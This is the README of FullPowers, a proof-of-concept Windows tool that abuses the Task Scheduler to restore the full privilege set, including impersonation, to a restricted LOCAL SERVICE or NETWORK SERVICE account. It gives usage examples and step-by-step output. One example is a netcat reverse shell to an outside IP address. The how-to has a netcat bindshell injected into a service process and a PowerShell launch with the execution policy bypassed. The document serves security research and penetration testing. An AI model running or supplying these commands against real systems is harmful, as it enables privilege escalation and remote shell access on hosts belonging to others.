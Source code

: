 # FullPowers

___FullPowers___ is a Proof-of-Concept tool I made for automatically recovering the default privilege set of a service account. 

<p align="center">
  <img src="demo.gif">
</p>

## Rationale

On Windows, some services executed as `LOCAL SERVICE` or `NETWORK SERVICE` are configured to __run with a restricted set of privileges__. Therefore, even if the service is compromised, __you won't get the golden impersonation privileges__ and privilege escalation to `LOCAL SYSTEM` should be more complicated. However, I found that, when you __create a scheduled task__, the new process created by the __Task Scheduler Service__ has __all the default privileges__ of the associated user account (except _SeImpersonate_). Therefore, with some token manipulations, you can spawn a new process with all the missing privileges.

For more information: https://itm4n.github.io/localservice-privileges/

## Usage

:warning: __This tool should be executed as `LOCAL SERVICE` or `NETWORK SERVICE` only.__

You can check the help message using the `-h` option.

```
c:\TOOLS>FullPowers -h

FullPowers v0.1 (by @itm4n)

  This tool leverages the Task Scheduler to recover the default privilege set of a service account.
  For more information: https://itm4n.github.io/localservice-privileges/

Optional arguments:
  -v              Verbose mode, used for debugging essentially
  -c <CMD>        Custom command line to execute (default is 'C:\Windows\System32\cmd.exe')
  -x              Try to get the extended set of privileges (might fail with NETWORK SERVICE)
  -z              Non-interactive, create a new process and exit (default is 'interact with the new process')
```

### Example 1, basic usage
```
c:\TOOLS>FullPowers
[+] Started dummy thread with id 9976
[+] Successfully created scheduled task.
[+] Got new token! Privilege count: 7
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.19041.84]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>
```

### Example 2, specify a custom command line
```
c:\TOOLS>FullPowers -c "powershell -ep Bypass"
[+] Started dummy thread with id 9028
[+] Successfully created scheduled task.
[+] Got new token! Privilege count: 7
[+] CreateProcessAsUser() OK
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Try the new cross-platform PowerShell https://aka.ms/pscore6

PS C:\WINDOWS\system32> Get-ExecutionPolicy
Bypass
```

### Example 3, start a netcat reverse shell and exit
```
c:\TOOLS>FullPowers -c "C:\TOOLS\nc64.exe 1.2.3.4 1337 -e cmd" -z
[+] Started dummy thread with id 5482
[+] Successfully created scheduled task.
[+] Got new token! Privilege count: 7
[+] CreateProcessAsUser() OK
```

## How-To

__You want to test this PoC yourself? That's great!__ Here are some simple instructions to get you started.

The overall idea is to start a bindshell from the process of an existing service, connect to it and then run the executable. 

1. You'll need 2 third-party tools, [netcat](https://eternallybored.org/misc/netcat/) and [RunFromProcess](https://www.nirsoft.net/utils/run_from_process.html).  
2. Pick a service which has limited privileges, e.g.: `upnphost`.  
3. Open the __Task Manager__, go to the __Services__ tab and get the __PID__ of the corresponding process.  
4. Use the following command to start the bindshell __as an administrator__:  
```
C:\TOOLS>RunFromProcess-x64.exe <PID> C:\TOOLS\nc64.exe -l -p 9001 -e cmd
```
5. Use the following command to connect to the bindshell:  
```
C:\TOOLS>nc64.exe 127.0.0.1 9001
Microsoft Windows [Version 10.0.19041.84]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
nt authority\local service

C:\WINDOWS\system32>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name          Description              State
======================= ======================== =======
SeChangeNotifyPrivilege Bypass traverse checking Enabled
SeCreateGlobalPrivilege Create global objects    Enabled
```
6. We can see that the current process has no impersonation privileges. Now run the PoC...  
```
c:\TOOLS>FullPowers
[+] Started dummy thread with id 5568
[+] Successfully created scheduled task.
[+] Got new token! Privilege count: 7
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.19041.84]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
nt authority\local service

C:\WINDOWS\system32>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= =======
SeAssignPrimaryTokenPrivilege Replace a process level token             Enabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Enabled
SeAuditPrivilege              Generate security audits                  Enabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Enabled
```

You should now have a shell __with impsersonation privileges__!

